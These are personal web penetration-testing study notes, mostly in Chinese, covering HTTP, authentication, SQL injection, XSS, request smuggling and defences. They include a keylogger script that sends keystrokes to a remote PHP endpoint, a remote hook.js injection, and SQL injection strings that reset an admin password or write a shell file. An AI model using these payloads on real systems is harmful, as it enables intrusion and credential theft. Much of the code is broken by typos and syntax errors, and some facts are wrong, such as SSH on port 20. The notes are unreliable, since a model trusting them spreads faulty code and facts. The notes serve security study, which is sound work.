


# web安全渗透测试
Web漏洞挖掘获取目标Web服务器权限和敏感信息

`框架名+版本号+漏洞`@vue/cli@4.5.14 RCE(Remote Code(Command) execution )

## web安全漏洞分类
[Tencent Security Response Center](https://security.tencent.com/)
The WASC Threat Classification

  - Brute Forces
  - insufficient Authentication
  - Weak Password Recovery Validation
Command Execution
  - Buffer Overflow
  - Format String Attack
  - LDAP injection
  - OS Commanding
  - SQL injection
  - SSI injection
  - XPath Injection
Inforamation Disdosure
  - Path Travelsal
  - Predictable Resource Location


## HTTP协议
编码与解码
http中介：代理/网关/缓存
断点续传和多线程下载

加密传输到CA证书
性能常见问题
安全假设
验证机制
会话管理机制
webDav-网盘存储
quic与http3.0

## request-response  lifecycle timing


## URL与URI


## IP地址和端口
端口扫描: to know which PID/Program name uses(占用) a particular TCP port
`-i` select by IPv[46] address: [46][proto][@host|addr][:svc_list|port]
`-n` Do not convert port numbers to port names
`-P` Do not resolve hostnames, show numerical addresses
```sh
lsof -nP -iTCP:27017 -sTCP:LISTEN
lsof -nP -i4@127.0.0.1:8000
netstat -anptu | grep LISTEN
```
## 常见服务及对应端口
web服务 HTTP:80/8080 HTTPS:443/8443
ssh服务 ssh:20
dev server: 3000 | 8000
mongodb: 27017
redis: 6379
mysql: 3306

```sh
ssh://
https://
redis://
mongodb://
```
## 域名解析
```sh
nslookup vuejs.org
```

## TCP三次握手：确保双方通信可靠性

第一次握手: Seq=X, SYN=1(请确认)
第二次握手: ACK = X + 1(client确认server接收能力正常), Seq =Y， SYN=1(请确认)
第三次握手: ACK = Y + 1 (server知道client接收能力正常)

## HTTP协议传输特点
- 限制每次连接只处理一个请求，收到应答后就释放连接，释放资源服务其他客户端
  早期互联网,间歇性大，长连接
`Connection:keep-alive`长连接
- 支持传输类型广泛

## 常见HTTP报文头

`Cookie`： 请求头
`Set-Cookie`:响应头，
`Authorization`
`Cache-Control`:
`Connection`: keep-alive, close
`Upgrade`: websocket
`Content-Type`:
`Accept`: text/html, */*(代表浏览器可以处理所有类型) 可以接受的MIME类型，如果服务器返回text/html类型的数据,服务器应该返回一个406错误(No Acceptable)

## HTTPS协议工作原理



[common MIME types](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types)
```js
res.header("Content-Type", "text/event-stream")
"Content-Type": "application/json",
// text/html text/event-stream
// "application/octet-stream"
// "application/x-www-form-urlencoded"
// application/pdf application/msword text/csv application/vnd.ms-powerpoint
// "multipart/form-data"
// image/gif, image/png, image/jpeg
```
## 常见HTTP状态码
`400` Bad Request 客户端请求语法错误
`401` Unauthorized
`403` Forbidden
`404` Not Found 请求资源不存在
`405` Method Not Allowed 请求资源的方法不允许
`406` Not Acceptable 服务器不存在可以接受的资源类型
`500`: Internal Server Error


## web站点架构


## 代理工具

监听（listen on)，
拦截 (intercept)
修改(forward, drop,)
客户端与服务端之前的请求响应报文

burpsuit
proxy模块
intruder模块


## 绕过客户端攻击
请求拦截
绕过验证码
绕过身份验证（身份证,邮箱,电话)
下载权限绕过
绕过支付或篡改金额`goodsnum=1&goodsprice=.1`
表单,cookie绕过
加密替换(较便宜产品的价格的哈希值替换)
破解算法'utf8','base32','md5','sha-256'
常用密码彩虹表
抓包、前端绕过操作
绕过金额支付

## 验证机制漏洞
### single signon

access token: represent specific scopes and durations of access
`access token state` : active | revoked | expired

```js
// access token header
{
  "type": "JWT",
  "alg"
}

// access token playload
{
  "issuer":
  "subject": // end user who request the token
  "audience": // 受众
  "iat": // issue at time
}

// access toke  signature


```


Authentication on the web
(they are who they say they are)
page require user to login
subscription required
#### Authentication Factors
something that user know:
safes have combination lock
private club use ticket

something that user has:
bank user ATM card and PINS
legal system uses signatures
something that user is: fingerprint,voice
pllices use fingerprints and dna
biometric factor
fingerprints
retina scan
facial recognition
voice matching

###  credential theft
- [x] social enginner guess
- [x] brute-force
- [x] keylogging
```
ducument.onkeydown = (e)=> {
  xhr = new XMLHttpRequest()
  // &fnof;(method,url,?async, ?username, ?password)
  xhr.open('POST', 'http://192.168.130/keylogger.php',true)
  xhr.setRequestHeader("Content-Type","application/x-www-urlencoded")
  xhr.send("key=" + String.fromCharCode(e.key))
}
```
- [x] phishing
- [x] database theft

完整性和篡改校验
ocr识别
验证码(滑块)技术
登录行为限制(连续5次错误登录,账号锁定或IP地址锁定)
双因子认证（what you know) & (what you have)
忘记密码，注册时（预留的手机号或邮箱）
请求拦截篡改放在查询参数中邮箱地址，将email参数改成自己的

cookie和会话检测（retrylogin=0;登录尝试失败,递增该值，达到某个上限，拒绝再次处理登录）

多阶段登录存在的安全风险与攻防
忘记密码的攻击措施和防御手段

## 会话管理漏洞
由于http的无状态,为了维持同一用户不同请求的状态，派发一个唯一标识用户的令牌（seesionID, token)是否与服务端存储的一致
html与xml
xml被设计为传输和存储数据
html被设计为显示数据)

Session Fixation attack
session/credential prediction attack
session injection

会话管理漏洞防御
软硬session

会话令牌生成安全风险

## 访问控制漏洞
越权:水平越权与垂直越权

## SQL注入漏洞


- SQL注入原理
- 注入过程
- 注入防御方法

### SQL注入类型
重言式(永真式)注入(tautology): 条件表达式结果永远判定为真，从而绕过认证或访问机制
playload -> db query -> result

当前数据库名长度
`substr(str,start, count)`
`1' and length(database()) >= 4#`
?`id=' and substr(database(),2,1) >= 97`
联合查询注入
`select name from users where id = '1' union select password from users#'`
- order by语句猜列数
`SELECT user_name FROM Users WHERE id = '`1' order by 2#`'`
`0' union select null, null%23`
查询主机系统版本信息
`0' union select null, @@global.version_compile_os from mysql.user#`
查询当前数据库名
`0' union select null, concat_ws(":",user(), version(), database())%23`
查询当前数据库中的所有表
`0' union select null,group_concat(table_name) from information_schema.tables  where table_scheme='dvwa'#`
查询表
`0' union select null,group_concat(column_name) from information_schema.columns  where table_scheme='dvwa' and table_name='users'#`
查询当前用户->
playload:``
get注入点-> `And `1=1`
破解表名-> `And (Select Count(*) from Admin) >=0`
破解字段名->
盲注获得字段值

通过mysql注释符来注释后续语句，避免语法报错
`encodeURIComponent(#)` 必须通过URL编码 -> '%23'
`-- `

- 时间延迟注入
判断数据库名长度和数据库名
`1' if(length(database())>=8,0,sleep(5))#`
`1' if(substr(select database())>='a',0,sleep(5))#`


- [x] 堆叠性注入(stack injection)
通过分号堆叠注入,修改管理员密码

`select * from users where id=`
`1'; update users set password ='xiyuan' where username = 'root';#`

- [x] 二次注入

更该当前用户的密码变成更改管理员密码
`update user set password = '$new_pass' where username='$username' and password='$curr_pass'`

- [x] 文件导出
查询secure_file_priv配置项

`select @@secure_file_priv`为`NULL`时,禁止导入导出

SQL注入漏洞探测

`?=1'`sql语句直接拼接查询参数

判断当前数据库是否有管理员权限
playload:?`id=1')) and (select count(*) from mysql.user)>0%23`
获取web目录绝对路径
`?id=')) union select null,null into outfile "~/www/lab/shell.js"#23`

- [x] log
MySQL的general_log会将所有到达MySQL Server的query语句记录到指定的日志文件中

- [x]
添加`%df`来吃掉转义符即可进行SQL注入

MySQL服务端和客户端通信时，
服务端如何解码客户端发来的字符
如何编码返回给客户端的结果

- [x]自动化注入sqlmap

### 注入位置
HTTP头注入
请求参数注入

### 注入防御方法


### 数据库类型
-nosql
mongo
mysql
oracle
postgressql


##  序列化
数据结构能以对象方式存储，但得转换成字节流才能传输

序列化: 对象 -> 字节流

反序列化： 字节 -> 对象

序列化的条件: java.io.Serializable

> comuptable可计算的


xpath注入

html与xml
xml被设计为传输和存储数据
html被设计为显示数据


## data cleansing数据清洗
查询参数检测,过滤,转义
- close quote string as  `'`
- statement terminator `;`
- comment `#`
- character escape` \ `

## XSS 跨站脚本攻击
XSS
反射式XSS
存储式XSS
DOM XSS


主机OS、IP、HTTP头
[Permission API](https://developer.mozilla.org/en-US/docs/Web/API/Permissions_API)


[Authentication API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Authentication_API)

```js

const getPermission = async (permission) => {
  const result = await navigator.permissions.query({name:permission})
  // state: 'granted' |'prompt' | 'denied'
  return `${permission}: ${result.state}`
}
```


`<script src="http://<IP>:3000/hook.js"></script>` 远程url上的恶意js文件
```js
const os = {
  detect() => {
    const userAgent = navigator.userAgent.toLowerCase()
    if (userAgent.indexOf("win") > -1) return "Windows";
    if (userAgent.indexOf("mac") > -1) return "MacOS";
    if (userAgent.indexOf("linux") > -1) return "Linux";
    if (userAgent.indexOf("android") > -1) return "Android";
    if (userAgent.indexOf("ios") > -1) return "iOS";
  }
}
const host = {
  os:{arch,family,name,version,software:{defaultbrower}}
}
const location: {
  city:,
  country:,
  ipadderss:,
}

const broweser = {
  getRequestHeader(){},
  // browser feature support detection
  capabilities: {
    webrtc: "RTCPeerConnection" in window,
    wetsocket: "WebSocket" in window,
    webworker: "Worker" in winodw,
    wegl: navigator.gpu,
    storage,
    svg
  }
  version,
  platform,
  engine： (()=> {
         if (window.opera && window.opera.buildNumber) return 'Presto';
         else if ('MozAppearance' in document.documentElement.style) return 'Gecko';
         else if ('WebkitAppearance' in document.documentElement.style) return 'WebKit';
         else if (navigator.userAgent.indexOf('Trident') !== -1) return 'Trident';
       })(),
  language,
  data: {datetime,timezone}
  window:{
    url: window.location.href,
    origin: window.location.origin,
    path: window.location.pathname
    hostname: window.location.hostname,
    query:window.loaction.search
    anchor: window.location.hash
    referrer:document.referrer,
    cookies:navigator.cookieEnabled,
    title:document.title
}
}

const hardware = {
  battery:{
    level:'getBattery' in navigator ?
            (async () => {
              try {
                const battery = await navigator.getBattery();
                return battery.level;
              } catch (error) {
                console.error('Error getting battery level:', error);
                return 'Error';
              }
            })() : 'Not supported'
  }
  cpu:{cores,arch}
  gpu,
  gpu:{vendor}
  memory,
  type,
  screen:{touchenabled, size:{width,height}
}
```

`<script> window.location="http://xss.attck/redirect.js"</script>`


`<a href="javascript:"></a>`

`

`<object data="data:text/html;base64,"/>`
`<iframe onmouseleave=""></iframe>`


```js title="keylogger.js"
ducument.onkeydown = (e)=> {
  xhr = new XMLHttpRequest()
  // &fnof;(method,url,?async, ?username, ?password)
  xhr.open('POST', 'http://192.168.130/keylogger.php',true)
  xhr.setRequestHeader("Content-Type","application/x-www-urlencoded")
  xhr.send("key=" + String.fromCharCode(e.key))
}
```

### XSS attack 防御


#### Input Validation输入验证
- 白名单
- 黑名单
- GeoFilter
- 格式和长度

#### Output Encoding输出编码

- [x] (symbol encoding)

html entity template: `&#<decimal>;` `&#402;` or `&fnof;` (unicode-dec)

Unicode template:`U+<Hex>`, `U+1092` (unicode-hex)

css content template `\<Hex>` `\1092` (unicode-hex)

url Encoded: `%c6%92` (utf-8)

```js title="output_encoding.js"
  const currency = ['&pound;','&eurp','&yen']
  const deg = ['&deg;'&#8457;'], // Fahrenheit
  const math = ['fnof;','&infin;','&percnt;']
const urlEncode = (str) => {
  // &fonf;(replacer)
  str.replace(/['#;']/g, (match) => {
    return '%' + c.charCodeAt(0).toString(16).toUppperCase()
  }).
}

const htmlEncode = (htmlString) => {
  const escapeMap = new Map([
      ['<', '&lt;'],
      ['>', '&gt;'],
      ['"', '&quot;'],
      ["'", '&#39;'],
      ['(', '&#40;'],
      [')', '&#41;'],
      ['%', '&#37;'],
      ['+', '&#43;'],
      [',', '&#44;']
    ]);

  //
  const regex = new RegExp([...escapeMap.keys()].join('|'), 'g');

  return str.replace(regex, match => escapeMap.get(match));
```

## CSP
`Content-Security-Policy`
## Web跨域漏洞
### 同源策略same origin policy
跨域技术
JSONP
CORS（cross-origin resource shared)
postMessage()
```http
Access-Control-Allow-Origin:
Access-Control-Allow-Crendentials
Access-Control-Allow-Methods
Access-Control-Allow-Headers
Access-Control-Max-Age
```

`X-Content-Type-Options:nosniff`


## clickJacking
`X-Frame-Options`: deny | sameorigin | allow-from <uri>

## 请求伪造漏洞CSRF

## over permission


## Remote code exection

playload:`cmd=archive&target=&type=` `cmd=upload`
## server side template injection
`render_template()`

`<!--#echo var="REMOTE_ADDR">`
`<!--#exec cmd=""-->`
`eval()`
`document.write()`

DNS query record
{"@type": "java.net.Inet4Address", "val":".dnslog.cn"}

## CRLF注入漏洞
CRLF(\r\n)，十六进制码为0x0d,0x0a
HTTP协议中，HTTP Header 与 HTTP Body 是CRLF分割

/%0a%0dSet-Cookie:%20session_id=123

## 文件上传漏洞

- [x] 文件上传目录设为不可执行

- [x] 文件上传类型(不允许恶意脚本)校验绕过
```js
const allow_types = ['text/html', 'image/gif','application/zip','application/json', 'application/octet-stream']

const checkFile = file => {
  if(!ALLOWED_TYPES.includes(file.type)) {
    const errMsg ="不支持上传该文件类型: " + ext_name
      message.error(errMsg)
  }
)
}
```
- [x] 文件拓展名检测绕过
```js
const allow_exts_name = '.gif|.jpg'
const checkFile = filename => {
  const ext_name = file_substring(filename.lastIndexOf(".")
    if(allow_exts_name.indexOf(ext_name) < 0) {
      const errMsg ="不支持上传该文件类型: " + ext_name
        message.error(errMsg)
    }
}
```

## 文件下载漏洞

- [x] PATH TRAVERSAL路径遍历
../../ 跨目录下载


## web缓存
```http
X-Forwarded-Host: www.weakness.com
```

```http
X-Cache: miss
```


```http
X-Cache: hit
```

## HRS(http request smuggling)

- [x] Content-Length 消息体长度(in bytes)

- [x] Transfer-Encoding 传输编码

`[chunk size][\r\n][chunk data][\r\n][chunk size][\r\n][chunk data][\r\n][chunk size=0][\r\n][\r\n]`

```http
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore:
```

## url跳转
playload: ?`url=http://x.x.x.x/fish.html`

## 敏感信息泄露
用户名账号密码
手机号/住址/余额
服务器配置
核心数据

## 6大中间件漏洞
- nginx

## 业务逻辑漏洞
- [x] 认证绕过漏洞
Authentication
常见web集中身份认证：
Digest、
```http
Authentication: `Bearer #f426`
```
SSL Client、Form
- 越权漏洞
- 支付漏洞
- 短信/邮箱轰炸
- [x] CAPTCHA(Completely Automated Public Turing test to tell Computers and Humans Apart)
  - 主要防止暴力破解密码、刷票、论坛灌水、
  - 一般分为图片验证码、短信验证码

## 数据库漏洞
跨站请求伪造-CSRF的危害与防御
社会工程学攻击


编码(encoding)
- Base64
- ASCII
- URL
- Hex
- UTF-8
" -> %quote
' -> &#x27
< -> &lt;
> -> %gt;
/ -> %
& -> %amp;
- HEX
加密(Encryption)
对称加密
- AES
- DES
非对成加密(公钥加密，私钥解密，可以可以传输)
- rsa
- ed25519
hash digest哈希散列算法(irreversible, collision resistant)
-sha256,384,512
-md5
-REPEMD-160
-BLAKE2s


## HMAC
HMAC = Hash-based Message Authentication Code (MAC code, calculated using a cryptographic hash function):


文件压缩格式
.zip
.tar

[^1]:[security on the web](https://developer.mozilla.org/en-US/docs/Web/Security) @MDN References > security on the web
[^2]:[symbol encoding](https://www.toptal.com/designers/htmlarrows/symbols/) @Toptal > /designers/htmlarrows/
[^3]:[Practical Cryptography for Developers](https://cryptobook.nakov.com/mac-and-key-derivation/hmac-and-key-derivation)
